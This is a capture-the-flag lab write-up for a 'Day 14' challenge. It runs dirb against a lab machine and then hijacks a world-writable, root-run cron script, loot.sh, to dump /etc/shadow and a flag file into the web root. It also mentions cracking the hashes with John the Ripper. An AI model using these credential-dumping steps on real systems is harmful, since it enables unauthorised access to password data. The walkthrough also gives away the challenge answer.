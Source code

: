 ## TASK-1  How many pages did the dirb scan find with its default wordlist?

Run the command in your attacking machine ```dirb http://<MACHINE_IP>``` and you will find 4 pages with the default wordlist of dirb.

## TASK-2 How many scripts do you see in the /home/thegrinch/scripts folder?

Navigate to the folder and run the command ```ls -la``` to list out the scripts on the folder.
```
mcskidy@ip-10-10-27-222:/home/thegrinch/scripts$ ls -la
total 20
drwxr-xr-x 2 root      root      4096 Nov 11 20:03 .
drwxr-xr-x 7 thegrinch thegrinch 4096 Nov 11 19:50 ..
-rwx------ 1 root      root       286 Nov 11 20:03 check.sh
-rwx------ 1 root      root        58 Nov 11 09:00 cleanup.sh
-rwxrwxrwx 1 root      root        74 Dec 15 07:28 loot.sh
-rwx------ 1 root      root         0 Nov 11 07:58 test.sh

```

## TASK-3/4 What are the five characters following $6$G in pepper's password hash?

If you visit the page admin it has an iframe pointing to <b>ls.html</b> which is holding the contents of the ```ls -la /home/thegrinch/loot``` directory.<br>
In the scripts folder there is only one file to which we have permission to write i.e loot.sh. change the content to ```cat /etc/shadow > /var/www/html/ls.html```.<br>
And there you have the content of /etc/shadow.

This little script <b>loot.sh</b> is run every minute using cronjob which displays the content of /loot directory.<br> I tried to get the /etc/passwd and /etc/shadow
and tried to run JohnTheRipper using rockyou.txt but it didn't give any result. I was not able to crack the hash using <b>rockyou.txt.</b><br>

But, since we know the exact location of the flag.txt file, we can modify the loot.sh script.
```
cat /home/thegrinch/Desktop/flag.txt > /var/www/html/ls.html
```
And wait for a few minute in the admin page and you should have the flag displayed.
```DI3H4rdREDACTED-masMovie! ```

<h3>That's it for Day-14. Happy Hacking!</b></h3>




